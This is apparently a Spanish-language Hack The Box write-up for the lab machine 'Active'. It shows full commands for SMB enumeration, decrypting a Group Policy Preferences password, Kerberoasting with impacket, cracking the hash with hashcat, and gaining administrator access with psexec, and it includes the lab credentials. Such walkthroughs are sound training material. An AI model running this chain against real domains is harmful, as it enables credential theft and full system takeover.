






# 🏳 Active

<figure><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/148">Activve</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.100</td><td></td></tr><tr><td>Sistema simulado: </td><td>Windows Server</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>smb</td><td></td></tr><tr><td>CVEs:</td><td></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos el ejercicio realizando un reconocimiento con NMAP a todos los puertos de la máquina Artic.

```bash
nmap -sC -sV -sT 10.10.10.100 -p-
```

<figure><figcaption></figcaption></figure>

Nos intentamos conectar mediante smb y listamos que directorios existen en el smb.

<figure><figcaption></figcaption></figure>

En este punto nos intentamos conectar en el directorio  Replication que es el que nos llama la atención del smb al no ser habitual.

<figure><figcaption></figcaption></figure>

Vamos buscando dentro de los directorios y nos encontramos el fichero Groups.xml el cual nos descargamos mediante `get Groups.xml`

<figure><figcaption></figcaption></figure>

Vemos el contenido del fichero Groups el cual vamos a intentar desencriptar la contraseña.&#x20;

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties acti>
</Groups>
```

Utilizamos gpp-decryp y conseguimos la contraseña del usuario SVC\_TGS

<figure><figcaption></figcaption></figure>

En este punto vamos a intentar acceder a los diferentes directorios con esa contraseña. Para ir algo más rápido vamos a automatizar mediante crackmapexec.

```bash
crackmapexec smb 10.10.10.100 -u SVC_TGS -p GPPstillStandingStrong2k18 --shares
```

<figure><figcaption></figcaption></figure>

En este punto accedemos y podemos ver la flag del usuario.

<figure><figcaption></figcaption></figure>


### 2. Escalada de privilegios

En este punto tenemos que investigar como realizar la escalada de privilegios en el sistema.&#x20;

Vamos a realizar un kerneroasting attack mediante [impacket-GetUserSPNs](https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/) con nuestras credenciales obtenidas para el usuario SVC\_TGS y así obtendremos un hash de administrador.

```bash
impacket-GetUserSPNs -request active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

<figure><figcaption></figcaption></figure>

Guardamos el hash en un fichero al cual aplicaremos fuerza bruta mediante el diccionario rockyou.txt  con hashcat onteniendo la contraseña `Ticketmaster1968`.

```bash
hashcat -m 13100 -a 0 /root/2 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt --force
```

Volvemos a utilizar crackmapexec para probar con los diferentes direcrotios del smb esta vez como el usuario administrador.

```bash
crackmapexec smb 10.10.10.100 -u Administrator -p Ticketmaster1968
```

<figure><figcaption></figcaption></figure>

Con esto tendríamos acceso como root a la máquina y podriamos conectarnos a la misma y obtener acceso a la flag.&#x20;

```bash
impacket-psexec WORKGROUP/Administrator:Ticketmaster1968@active.htbsh
```

<figure><figcaption></figcaption></figure>


Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)

